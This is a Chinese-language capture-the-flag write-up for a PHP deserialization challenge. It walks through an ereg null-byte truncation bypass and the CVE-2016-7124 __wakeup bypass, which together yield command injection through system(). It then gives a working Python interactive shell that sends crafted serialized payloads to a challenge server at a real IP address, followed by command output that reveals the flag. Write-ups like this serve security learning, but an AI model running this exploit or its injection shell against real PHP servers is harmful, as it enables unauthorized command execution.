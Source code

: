 ```php
			die("Attack!");
		}
	}
}

?>

```
三个文件的逻辑很简单，其中index2.php中有主逻辑，下面一个个分析。
- waf.php
这个文件只有一个函数`waf()`，这个函数对传入字符串进行黑名单排查。
- class.php
该文件中建立了一个`Record`的类，该类有一个属性file，有`__sleep()`,`__wakeup`两个特殊的魔术方法定义，感觉这就是解题关键。
- index2.php
该文件有题目的主逻辑，只要突破对`$ad`变量的重重阻碍，就可到达一个解序列化函数`unserialize($secret)`，而这就是解题关键。

## 解决
通读三个文件，有两处调用了system函数，其中index2.php中在调用前会检查文件是否存在，只有`Record`类的`__destruct`函数中调用时并未做检查。这里如果控制file属性，就可以控制system函数的参数，从而造成命令注入。
这里需要解决三大问题：
- ereg和strpos函数矛盾
这里可以利用ereg函数的截断漏洞绕过，该函数会在ascii码为0的地方截断。
- secret中不能包含`./`
这个不是问题，但是要注意，嘿嘿。
- 解序列化后如何进入system的条件语句块
这里要利用php的一个漏洞（CVE-2016-7124），php（PHP5< 5.6.25；PHP7< 7.0.10）在使用函数`unserialize`时，若属性个数大于实际属性个数就不会调用类的`__wakeup`函数。在这里就能控制file属性的值了。
于是为了更容易的执行命令，我用python写了如下的代码
```python
import requests
def work():
    secret = 'O:6:"Record":3:{s:4:"file";s:%d:"%s";}'
    ad = '1\x00--'
    file ='Flag'
    url = "http://47.104.99.231:20003/index2.php"
    
    while(True):
        cmd = raw_input('$ ')
        if(cmd == 'quit'):
            print 'over!!!'
            break
        cmd = 'Flag.php && ({}) && echo '.format(cmd)
        s = secret%(len(cmd),cmd)
        r = requests.get(url,params={'file':file,'ad':ad,'secret':s})
        r.encoding = 'utf-8'
        i = r.text.find('Flag is !')+9
        j = r.text.rfind('Flag is !')-6
        print r.text[i:j].encode('GB18030')
        r.close()
work()
```
最后flag在Flag.php文件中：
```PowerShell
$ ls import
Flag.php
Me.php
Record.php

$ cat import/Flag.php
<?php
error_reporting(0);
//$flag = "flag{g_i_i_t_is_unsafe_ahhhahahah}";

```